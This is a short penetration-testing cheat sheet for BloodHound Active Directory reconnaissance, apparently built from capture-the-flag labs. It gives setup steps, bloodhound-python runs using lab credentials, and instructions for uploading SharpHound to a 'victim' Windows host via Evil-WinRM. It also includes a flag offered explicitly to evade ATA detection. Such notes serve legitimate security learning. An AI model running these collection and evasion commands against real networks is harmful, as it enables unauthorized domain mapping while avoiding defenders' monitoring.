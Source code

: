 # # `Download/Install` -

[BloodHound](https://github.com/BloodHoundAD/BloodHound)

Clone the repository into `/opt`, and also got the latest release binary. I’ll start `neo4j` (`apt install neo4j`) if it’s not already installed) with `neo4j start`, and then run Bloodhound. If you’re running as root, you’ll need the `--no-sandbox` flag.

If it’s a fresh install (or if you forget your password from a previous install, you can delete `/usr/share/neo4j/data/dbms/auth` and then it’s like a fresh install), I’ll need to change the `neo4j` password by running `neo4j console`, visiting the url it returns, and logging in with the default creds, neo4j/neo4j. It’ll force a password change them at that point. Now the BloodHound program can connect

[neo4jconsole && bloodhound for GUI]

## # `BloodHound(From Linux)` -

With creds you can run [bloodhound.py](https://github.com/fox-it/BloodHound.py) against the domain -

```bash
bloodhound-python -u hope.sharp -p IsolationIsKey? -d search.htb -c All -ns 10.10.11.129 --zip
```

```bash
bloodhound-python -d rebound.htb -c Group,LocalADmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn -u oorend -p '1GR8t@$$4u' -ns 10.10.11.231 --zip
```

Using Kerberos -

```bash
bloodhound-python -u d.klay -p 'Darkmoonsky248girl' -k -d absolute.htb -dc dc.absolute.htb -c ALL --zip
```

## # `Bloodhound(From Windows)` -

Download `SharpHound.exe` from [here](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe) and upload it to the victim window machine

```powershell
*Evil-WinRM* PS C:\programdata> .\sharphound.exe -c all
```

Or Download `Sharphound.ps1` from [here](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1) 

```powershell
*Evil-WinRM* PS C:\programdata> . .\SharpHound.ps1
*Evil-WinRM* PS C:\programdata> Invoke-BloodHound -CollectionMethod All
```

To avoid detections like ATA :

```powershell
Invoke-BloodHound -CollectionMethod All -ExcludeDC
```

